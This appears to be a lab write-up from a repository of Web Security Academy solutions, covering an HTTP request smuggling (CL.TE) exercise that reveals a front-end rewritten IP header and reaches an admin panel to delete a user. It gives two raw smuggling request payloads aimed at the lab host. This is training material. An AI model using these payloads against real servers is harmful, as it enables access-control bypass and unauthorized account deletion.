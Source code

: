 
![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TECL_control_solve.png?raw=true)




### Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos.

```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_requestwrite_blog.png?raw=true)

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=aaa

```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_requestwrite_checksearch.png?raw=true)

=> X-vdAOdZ-Ip:


```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

search=aaa
```
